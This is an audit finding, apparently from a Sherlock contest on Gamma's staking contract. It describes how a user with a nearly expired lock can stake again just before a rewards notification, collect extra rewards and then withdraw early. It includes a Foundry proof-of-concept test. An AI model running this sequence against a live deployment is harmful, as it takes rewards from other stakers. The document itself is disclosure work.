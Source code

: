Lucky Aegean Sardine

medium

# Users can use their expiring locks to increase their rewards right before a rewards notification

## Summary
Users can front-run rewards notification and withdraw earlier than expected as long as they have other locks that are close to expire.

https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/src/Lock.sol#L349-L371

## Vulnerability Detail
* Bob stakes an amount X for the minimum duration.
* Bob waits for an interesting variation in rewards that happens close to the end of his lock cycle
* Bob then skates the same amount X again right before rewards notifications (can be triggered by him) and initiates a late exit for his first lock.
* Bob withdraws his first lock amount as soon as possible (could be as low as 1 second)

## Impact
Increase rewards at the expense of other stakers while being able to withdraw earlier than expected. 

## Code Snippet
```solidity
    function testRewards() public {
        vm.startPrank(user1);
        lock.stake(1 ether, user1, 0);

        vm.startPrank(user2);
        lock.stake(1 ether, user2, 0);

        skip(lockPeriod[0] - 1);

        assertEq(lock.calcRemainUnlockPeriod(lockList.getLock(user1, 0)), 1); // Remaining lock time should be 1 second

        vm.startPrank(deployer);
        _rewardToken.mint(address(lock), 1 ether);

        vm.startPrank(user1);
        lock.stake(1 ether, user1, 2);

        lock.notifyUnseenReward(rewardTokens);

        lock.getAllRewards();

        lock.exitLateById(0);

        skip(1);

        lock.withdrawUnlockedTokenById(0);
    }
```

## Tool used
Manual Review

## Recommendation
Not sure how to mitigate this without having a global per user cooldown on late exists / withdrawals.